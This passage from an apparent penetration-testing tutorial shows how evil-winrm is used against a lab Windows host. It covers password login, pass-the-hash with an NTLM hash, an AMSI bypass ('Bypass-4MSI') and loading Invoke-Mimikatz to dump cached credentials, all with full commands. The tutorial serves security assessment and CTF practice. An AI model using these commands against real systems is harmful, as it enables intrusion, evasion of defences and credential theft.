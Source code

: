 ```
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -S
```

![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhOAfaCC9m4qMV4FjurV12Qfo3U3OHMA7ngvltegNDXW2tBLZYfh7CwNm3FwGjgpEgYBpPR1hFkx5RWNeIndABKy6Ze6HVZkli-InYrgIQy2y1668xASOnJIXqkltEY51pU9C9ym41NZHI-AaG9PPSEOUCD1pieoKzprAHvmiHAF4u3F4ME2Nfk7-0xFQ/s16000/5.png?w=640&ssl=1)

### Login with NTLM Hash -Pass The Hash Attack

During the internal assessment or solving any CTF related to windows privilege escalation and Active Directory exploitation, we often get NTLM hash by using our exploits and the attacks. If we are in the windows environment, we can utilise evil-winrm to establish a PowerShell session by performing pass the hash attack where we issue hash as a password instead of using a plain texted password. Apart from that, this attack also supports other protocols as well. We can pass the hash using **\-H** flag along with the command we used earlier replacing the password section with the hash. More detailed guide about the pass-the-hash attack is available in the below link:

**[https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/](https://www.hackingarticles.in/lateral-movement-pass-the-hash-attack/)**

evil-winrm -i 192.168.1.19 -u administrator -H 32196B56FFE6F45E294117B91A83BF38

evil-winrm -i 192.168.1.19 -u administrator -H 32196B56FFE6F45E294117B91A83BF38

```
evil-winrm -i 192.168.1.19 -u administrator -H 32196B56FFE6F45E294117B91A83BF38
```

![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiUT9NJqZ1mSnsVg7Fh8R1r_9t0PP5nZPzTf1ya17cXkZJKVTjgk4a9ixFLVKHkH9yfNnCcrpgS1aGk1S7Om46RPCpiGKqd2CjRtorV3Uiwyk0TYfj4MvKDS2hu0_qYOszrP7cfcwxmDOJFF5hy-1_n33pQ6weSm4HAAkanY6navDEYprIoZH8MSVghug/s16000/6.png?w=640&ssl=1)

### Load Powershell Script

Evil-winrm also comes up with a feature which allows us to use scripts from our base machine. We can directly load scripts directly into the memory using **\-s** flag along with the script file path where we have stored scripts I our local machine. Furthermore, it also comes up with AMSI feature which we often require before importing any script. In the below example, we are bypassing AMSI then directly calling Invoke-Mimiktz.ps1 script from our system to the target machine and loading it into the memory. After that, we can use any mimikatz command. For demonstration purpose, here we have dumped credentials from the cache. After dumping credentials, we can perform pass the hash attack with obtained NTLM hash again. Follow the steps below to reproduce the attack with evil-winrm.

**[https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1)**

![](https://i0.wp.com/blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhtxyXy0DyqxFEfaQ3iU9DY4WC5Q2hM0KomwWy7NMR_N-FXPBGJbKgNtyvOe-1i2lQJxFjzzqRyeBlAkMLE3lUWlJW4FJcKtO3lmPWjPXhiJ5mzxpOIqwnfSMALTns0caf1BWeuQCQTRip75vpLRTHBbTQKQZH0mwIjkw82pIJB7h1L4d1spn8mfoXa4Q/s16000/7.png?w=640&ssl=1)

evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell

evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell Bypass-4MSI Invoke-Mimikatz.ps1 Invoke-Mimikatz

```
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz
```
